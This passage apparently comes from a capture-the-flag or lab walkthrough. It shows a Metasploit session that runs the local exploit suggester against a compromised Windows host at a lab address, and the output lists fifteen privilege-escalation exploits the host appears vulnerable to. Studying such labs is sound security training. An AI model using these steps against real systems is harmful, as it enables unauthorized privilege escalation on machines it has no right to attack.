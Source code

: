 
### Run local exploit suggester

```bash
msf6 exploit(windows/smb/smb_delivery) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(windows/smb/smb_delivery) > use 0
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

```bash
...
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```